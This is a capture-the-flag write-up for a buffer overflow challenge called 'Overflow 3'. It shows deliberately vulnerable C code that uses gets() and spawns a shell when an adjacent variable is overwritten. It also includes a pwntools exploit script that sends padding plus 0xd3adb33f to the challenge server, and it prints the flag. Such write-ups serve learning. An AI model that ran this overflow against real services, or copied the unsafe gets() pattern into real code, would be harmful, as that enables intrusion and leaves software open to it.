


# Overflow 3

 

```txt
looks like buffer overflows aren’t so easy anymore.
nc cyberyoddha.baycyber.net 10003
- Haskell#1426
```

---

... _hmm_ ... this challenge actually wasn't all that different from the previous one. This time, instead of overflowing into the return pointer, simply change the value of the `long int` by overflowing ... 

As you can see in the source code, if you manage to change `vuln`'s value to `0xd3adb33f`, you will be presented with a shell:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(void) {
	long vuln = 0;
        char buf[16];

	gets(buf);

	if (vuln == 0xd3adb33f){
		system("/bin/sh");
	}
}
```

... using radare, you can easily figure out `vuln`'s address in memory and the offset from the beginning of the input buffer to this `long` variable:





... now... simply write an exploit script, similiar to the previous one:

```py
#!/usr/bin/python3

import struct
from pwn import *

r = remote('cyberyoddha.baycyber.net', 10003)
o = 0x10

r.sendline(b'X'*o+struct.pack('<I',0xd3adb33f))
r.interactive()
```

... and cat the flag: `CYCTF{wh0@_y0u_jump3d_t0_th3_funct!0n}`

_Btw. is it just me... or do the flags for this and the previous challenge like they were swapped... @CyberYoddha, what happened there? ^^_
